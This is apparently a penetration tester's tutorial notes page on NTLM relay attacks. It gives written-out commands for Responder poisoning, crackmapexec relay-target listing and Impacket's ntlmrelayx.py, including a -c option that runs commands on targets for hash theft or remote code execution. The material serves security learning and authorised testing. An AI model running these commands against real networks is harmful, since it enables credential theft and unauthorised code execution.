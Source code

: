 # <h1 align="center" id="heading">NTLM Relay</h1>
This attack scenario is viable when you can force authentication to an attacker controlled SMB share hosted by Responder. If I can obtain a Net-NTLMv1/v2 hash from a target and SMB Signing is disabled (default) there is a potential that I can relay the hash using Impacket's ntlmrelayx.py. There are a few ways that I can go about this but there are some requirements to set up this attack. The first of which I need to disable my Kali SMB server with the following command:
```console
sudo systemctl stop smbd nmbd
```
Once I have stopped the SMB server, I also need to change the configuration file for Responder to turn off SMB and HTTP servers. I can accomplish this with the following command:
```console
vim ~/tools/Responder/Responder.conf
```
The configuration file should look something like this:
```console
[Responder Core]

; Servers to start
SQL = On
SMB = Off # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off # Turn this off
HTTPS = On
DNS = On
LDAP = On
```
I will also need to generate a list of targets where SMB signing is disabled, I can do this for an entire CIDR with the following command:
```console
crackmapexec smb <target network>/24 --gen-relay-list relay.txt
```
Once I have a list of targets that does now have SMB signing enabled, I can use the following command to start up Responder:
```console
sudo python ~/tools/Responder/Responder.py -I tun0 -wrd 
```
I will also start up Impacket's ntlmrelayx.py with the following command:
```console
sudo python3 ~/tools/impacket/examples/ntlmrelayx.py --no-http-server -smb2support -tf relay.txt
```
I can also use the -c option to execute commands on the target system as follows:
```console
sudo python3 ~/tools/impacket/examples/ntlmrelayx.py --no-http-server -smb2support -tf relay.txt -c "whoami"
```
This could lead to me grabbing valid system hashes or obtaining remote code execution on the target!
